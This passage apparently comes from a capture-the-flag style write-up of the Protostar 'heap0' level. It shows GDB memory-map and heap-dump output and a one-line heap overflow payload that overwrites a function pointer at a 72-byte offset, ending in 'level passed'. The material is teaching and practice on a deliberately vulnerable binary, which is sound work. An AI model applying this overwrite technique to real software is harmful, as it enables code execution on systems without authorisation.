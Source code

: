 \begin{lstlisting}[language=bash]
info proc map
>>>process 2170
>>>cmdline = '/opt/protostar/bin/heap0'
>>>cwd = '/opt/protostar/bin'
>>>exe = '/opt/protostar/bin/heap0'
>>>Mapped address spaces:
>>>
>>>        Start Addr   End Addr       Size     Offset objfile
>>>         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
>>>         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
>>>         0x804a000  0x806b000    0x21000          0           [heap]
>>>        0xb7e96000 0xb7e97000     0x1000          0
>>>        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
>>>        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
>>>        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
>>>        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
>>>        0xb7fd9000 0xb7fdc000     0x3000          0
>>>        0xb7fe0000 0xb7fe2000     0x2000          0
>>>        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
>>>        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
>>>        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
>>>        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so

x/30x 0x804a000
>>>0x804a000:      0x00000000      0x00000049      0x61616161      0x00000000
>>>0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
>>>0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
>>>0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
>>>0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
>>>0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
>>>0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
>>>0x804a070:      0x00000000      0x00000000
\end{lstlisting}

We find out the location address of the heap first and we examine the memory content
to get the offset needed to inject the target address. On examination we find out
that we need 72 bytes.

\begin{lstlisting}[language=bash]
./heap0 $(python -c "print 'A'*72 + '\x64\x84\x04\x08'")
>>>data is at 0x804a008, fp is at 0x804a050
>>>level passed
\end{lstlisting}

